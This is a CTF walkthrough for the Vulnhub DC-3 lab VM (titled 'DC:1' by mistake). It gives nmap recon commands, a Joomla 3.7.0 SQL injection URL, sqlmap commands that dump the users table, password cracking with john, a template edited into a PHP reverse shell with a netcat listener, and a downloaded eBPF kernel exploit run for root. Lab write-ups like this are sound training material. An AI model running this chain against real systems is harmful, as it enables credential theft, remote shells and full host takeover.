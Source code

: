 # DC:1 CTF Walkthrough (Vulnhub) 

###### <p align="center"> *This is official repository maintained by me*</center> </p>
###### <p align="center"> *[yigitdrbk](https://www.instagram.com/yigitdrbk/) *</center> </p>

Dc:3 is a CTF created by DCAU. You can find the technical information about this CTF on the Vulnhub page. First of all, make sure to download and install the correct OVA file from Vulnhub. (https://download.vulnhub.com/dc/DC-3-2.zip).

As mentioned in the description on the Vulnhub page, it is similar to beginner CTFs, but it requires knowledge of Linux and penetration testing tools like sqlmap , netcat and nmap.

## 1-Recon
After setting your machine’s IP to work on your network, you’re ready to scan. If you can’t reach your machine from another virtual machine or your own computer, you should check your VirtualBox network settings. If you’re trying to reach your machine from another VirtualBox instance, both machines’ network settings should be set to Bridged Adapter or NAT Network. Once that’s configured, you’re ready to start scanning.

To find an IP address on the same network, we can use Nmap or Netdiscover to scan.

```bash
nmap -sn 10.0.2.0/24 or netdiscover -r 10.0.2.0/24
```

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*kGwQw0OZ-z3KaE0qCHMbYg.png "DC3")

If you are not sure if this is Ctf machine ip or your ip , just run ifconfig. I make sure this is my ip now I can scan ports, search for directories, view the source page, etc. I started with Nmap, but you can also use Rustscan to quickly find open ports.

```bash
nmap -p- -vv <Machine-Ip> -oN openports
```

Also i checked source code but there was nothing important. After finding the open ports, I performed a script scan and a version scan. Additionally, scanning for vulnerabilities is important at this stage.

```bash
nmap -PN -sS -sV --script vuln -p 80 <Machine-Ip> -oN finalscan
```
![DC3](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*sxzrOCgpZUy2-SUi57b19w.png "DC3")

Only port 80 is running an Apache HTTPD 2.4.18 server. During my scan, I found some suspicious folders, so there was no need to use tools like Dirsearch or Dirb

Importantly, I discovered a Cve related to an SQL injection vulnerability in this Joomla version(3.7.0). Joomla is a Cms, similar to WordPress or Drupal.

Since Drupal was on DC:1, I had some prior knowledge of CMS platforms.

Afterward, I visited the website, where there was only one note.

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/0*DltvuQgyCsY71V3Z.png "DC3")

I tried the admin directory I found in the Nmap script scan. The administrator directory also had a login panel. Since I knew about the SQL injection vulnerability, I used SQLmap.

## 2- Exploitation

First, I tried msfconsole and searched for Joomla 3.7.0. There was an exploit available, but it didn’t work for some reason. Next, I searched for Joomla 3.7.0 on searchsploit and found the vulnerable URL. I replaced localhost with my CTF machine’s IP address.

![DC3](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*dPWMC75jkVxW4taJ1GIKXQ.png "DC3")

```bash
http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```
The -m parameter in Searchsploit copies the exploit’s text file to your directory. After I found the vulnerable URL and modified it, I tried to run SQLmap. Since I wasn’t familiar with SQLmap, I did some research and discovered that I needed to find the table names first, which I would use later.

```bash
sqlmap -u "http://10.0.2.12/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
The above command’s result gave me 6 table name.

```bash
Table: #__users
[6 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| name     | non-numeric |
| email    | non-numeric |
| id       | numeric     |
| params   | non-numeric |
| password | non-numeric |
| username | non-numeric |
+----------+-------------+
```
Then, I tried to exploit the #__users table using SQLmap. My goal was to gather the users and their passwords with the command below:

```bash
sqlmap -u "http://10.0.2.12/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb -T '#__users' -C name,password --dump
```
![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*qInxXcDo6B764ba-luSqJA.png "DC3")

Now I have admin hash. I cracked with john. It’s too easy to do. Just write your hash into a file and run the “ john <file>” command. As below :

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*q8EwThdf3juKA-_jsyXkRw.png "DC3")

With the password snoopy, I tried to log in to the administrator directory. I successfully accessed the admin panel of the CMS.

I edited the index.php file from the templates page, which was a bit challenging to find. I copied the entire index.php code from the website and replaced it with a PHP reverse shell. The PHP reverse shell can be found in the /usr/share/webshells/php directory. If you can’t find it on your machine or if you’re not using Kali, you can simply search for it on the internet.

Don’t forget to modify your payload; your IP and port must be correct. I started a netcat session with rlwrap so I could use my previous commands.

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*G21jHVvANo257faztUmS1g.png "DC3")

```bash
rlwrap nc -lvnp 1234
```
I used curl command to run index.php file but it was not necessary , you can just visit the page on browser.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
Basic shell commands to get a more proper shell. And now it’s time to privilege our escalations.

## 3- Privilege escalation

There was nothing on the machine to privilege escalation so i checked what am i using.

![DC3](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ZbOzp_aNOtfc14UXzgF0Nw.png "DC3")

I was using the outdated version of Ubuntu. With some quick resarch on searchsploit i found the report.


![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*aIoqKw6Cb5tU9GizFQ-8zA.png "DC3")

“Searchsploit -m linux/local/39772.txt “ located report to my current directory. But this was just a report thing not a payload. But there was links to payload so i tried to git first.

![DC3](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*VY4s4XUL_tuGal5KOCeugg.png "DC3")

Exploit-DB Mirror: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip

However, the Git link was just a report as well. I tried to use the zip link and downloaded it to my computer. I hosted my computer using the command php -S <myip>:8000 so I could access this zip file through the www-data shell. However, I couldn't access it due to permissions and restrictions. I then attempted to download the zip file directly to the CTF machine, but that didn’t work either.

I noticed the /var/tmp directory, which is a globally writable directory, so I could download my zip file there. I used the following command:

```bash
git clone <above exploit-db link>
```

And i have zip file downloaded. I extracted it and used.

```bash
unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
```

And there was the exploit files.

![DC3](https://miro.medium.com/v2/resize:fit:294/format:webp/1*t4cv4eCjc4UCyHDcVx1fEw.png "DC3")

I run the compile.sh file and then run the doubleput file.

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*VsyJvE0KOvf4CJykZWr_oQ.png "DC3")

And now I am root so I can cd to root directory and read the flag.

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*4zqOZ9xigkGWxebWyqR7dw.png "DC3")

Developer / Author: [yigitdrbk](https://www.instagram.com/yigitdrbk/)
